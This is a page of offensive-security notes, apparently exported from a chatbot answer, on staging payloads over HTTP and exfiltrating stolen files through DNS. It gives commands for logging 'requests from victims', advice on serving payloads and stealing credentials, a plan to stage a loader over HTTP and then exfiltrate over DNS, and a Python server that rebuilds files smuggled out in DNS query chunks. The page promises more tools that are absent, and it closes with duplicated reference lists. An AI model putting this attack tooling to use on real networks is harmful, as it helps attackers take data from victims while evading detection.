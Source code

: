 ## 🧩 Bonus: Logging Requests from Victims

To capture hits and filenames:

```bash
sudo tcpdump -n port 80
# OR
python3 -m http.server 80 > http.log 2>&1
```

For **detailed request inspection**, use:

```bash
sudo mitmproxy --mode regular -p 8080
```

---

## ✅ TL;DR

* `http.server` **is fine** for serving files and staging payloads — especially in LANs or quick attacks.
* It’s **not ideal for receiving data**, credential stealing, or HTTPS-required attacks.
* Combine it with DNS exfiltration by **staging the initial loader via HTTP**, then let the loader communicate via DNS.

---

Here’s an enhanced suite of tools and PoCs covering **data reconstruction in DNS exfil**, **iodine-based tunneling**, **Burp Collaborator integration**, **PowerShell and DoH variants**, and a **pre-built HTTP‑to‑DNS exfil payload**.

---

## 1️⃣ File Reconstruction from DNS Chunks

Use this **Python server** (in `dnsexfil_server.py`) to collect and reconstruct file chunks sent via DNS:

```python
import base64

METHOD_BUFFER = {}

def handle_query(qname):
    parts = qname.rstrip('.').split('.')
    session, chunk_id, data = parts[0], parts[1], parts[2]
    METHOD_BUFFER.setdefault(session, {})[int(chunk_id)] = data
    print(f"[+] Received session={session}, chunk={chunk_id}")

def reconstruct(session):
    chunks = METHOD_BUFFER[session]
    assembled = ''.join(chunks[i] for i in sorted(chunks))
    raw = base64.b32decode(assembled)
    open(f"{session}_recovered.bin", "wb").write(raw)
    print(f"[✔] File saved: {session}_recovered.bin")

# Integrate with dns server or call handle_query for each incoming qname
```


[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"